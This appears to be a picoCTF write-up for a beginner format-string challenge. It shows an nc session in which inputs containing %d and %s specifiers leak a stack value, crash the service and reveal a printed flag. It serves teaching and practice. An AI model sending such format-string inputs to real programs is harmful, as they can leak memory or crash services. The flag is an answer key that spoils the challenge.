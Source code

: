 # Format string 0

## Solution
As the title suggests, we had to look for format specifiers in the options
given to us, for the first one it was pretty obvious as % is mod and 114d is 
a 114 digit decimal number, however for the second one it took me a while to 
understand that %s would be the best option as we are working with strings here and
selected the classic cheesesteak option

```
root@ASUS-ZN14:/mnt/c/Users/naira/Downloads# nc mimas.picoctf.net 61754
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}
```

## Flag
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}

```

# Concepts Learnt
Learnt about string formatting in C programs



# Notes
None


# Resources
https://www.geeksforgeeks.org/c/format-specifiers-in-c

